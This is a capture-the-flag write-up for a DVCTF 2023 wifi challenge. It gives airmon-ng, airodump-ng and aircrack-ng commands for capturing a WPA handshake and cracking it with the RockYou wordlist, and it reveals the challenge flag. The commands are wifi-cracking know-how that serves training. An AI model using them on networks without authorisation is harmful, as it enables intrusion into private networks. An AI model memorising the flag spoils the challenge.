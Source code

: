 ### MyWifi 1/2
**Category:** Physique - **Difficulty:** Easy  
**Description:**  
We forgot the password of our wifi (*DVCTF2023_Part1*). Can you help us?  
  
> Flag format : dvCTF{wifi_password}  

**Solution:**  
To solve this challenge, you need to capture an handshake and crack the wifi password with it :  
- Turn on your wifi card in monitor mode : `airmon-ng start wlan0`  
- List all the wifi networks arround you : `airodump-ng wlan0mon`  
![Airodump-NG](https://user-images.githubusercontent.com/91023285/220078683-cd4d603b-39d4-4495-bb09-d6413472cd9f.png)  

- Capture packets and wait a client connect to the wifi (to get the handshake) : `airodump-ng --bssid <MAC Address> --channel <channel> --write <file_name> wlan0mon`  
![Airodump-NG](https://user-images.githubusercontent.com/91023285/220079135-9c325200-2c87-4a2d-84c8-92c6a37bf1cc.png)  

- Crack the password with RockYou wordlist : `aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <MAC Address> <file_name>.cap`  
  (You need to wait about 10 minutes)  
![Aircrack-NG](https://user-images.githubusercontent.com/91023285/220079295-81638dc3-859b-4763-b2b6-d9d0ffa25e75.png)  


<details>
  <summary>:triangular_flag_on_post: FLAG</summary>

  ```
  dvCTF{PAPAbiscoitos}
  ```
</details>
